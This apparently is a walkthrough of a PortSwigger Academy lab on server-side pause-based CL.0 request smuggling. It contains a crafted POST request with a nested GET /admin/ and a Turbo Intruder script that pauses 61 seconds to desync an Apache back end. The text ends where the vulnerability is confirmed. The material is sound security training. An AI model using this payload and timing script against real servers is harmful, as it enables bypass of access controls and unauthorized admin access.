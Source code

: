 #  Server-side pause-based request smuggling

## 📌 Lab Details
- **Title**: Server-side pause-based request smuggling
- **Difficulty**: Expert
- **Category**: HTTP Request Smuggling
- **Lab URL**: https://portswigger.net/academy/labs/launch/15658ad1d00ccc9b99c99507c53dd7ec3472c9a0102ad3894e6c713f472630c8?referrer=%2fweb-security%2frequest-smuggling%2fbrowser%2fpause-based-desync%2flab-server-side-pause-based-request-smuggling

## 🔍 Summary
Pause-based server-side request smuggling (CL.0) exploits a timing mismatch between a front-end proxy and a back-end that handle persistent connections differently. Using Turbo Intruder you send headers, pause (≈61s), then send a nested request; the backend treats the later bytes as a new request (e.g., Host: localhost → /admin/)

## 🛠 Steps to Solve
**Identify a desync vector**:
1. In Burp, notice from the `Server` response header that the lab is using `Apache 2.4.52`. This version of Apache is potentially vulnerable to pause-based CL.0 attacks on endpoints that trigger server-level redirects.
2. In Burp Repeater, try issuing a request for a valid directory without including a trailing slash, for example, `GET /resources`. Observe that you are redirected to `/resources/`.
3. Send the request to **Turbo Intruder**.
4. Change request method to **POST** and change the `Connection` header to `keep-alive`.
5. Add a complete `GET /admin` request to the body of the main request.
   ```sh
   POST /resources HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Cookie: session=YOUR-SESSION-COOKIE
   Connection: keep-alive
   Content-Type: application/x-www-form-urlencoded
   Content-Length: CORRECT

   GET /admin/ HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   ```
6. Enter the following script of Python. This issues the request twice, pausing for 61 seconds after the `\r\n\r\n` sequence at the end of the headers:
   ```sh
   def queueRequests(target, wordlists):
       engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=500,
                           pipeline=False
                           )

       engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
       engine.queue(target.req)

   def handleResponse(req, interesting):
       table.add(req)
   ```
7. Launch the attack. Initially, you won't see anything happening, but after 61 seconds, you should see two entries in the results table:
   - The first entry is the `POST /resources` request, which triggered a redirect to `/resources/` as normal.
   - The second entry is a response to the `GET /admin/` request. Although this just tells you that the admin panel is only accessible to local users, this confirms the pause-based CL.0 vulnerability.
  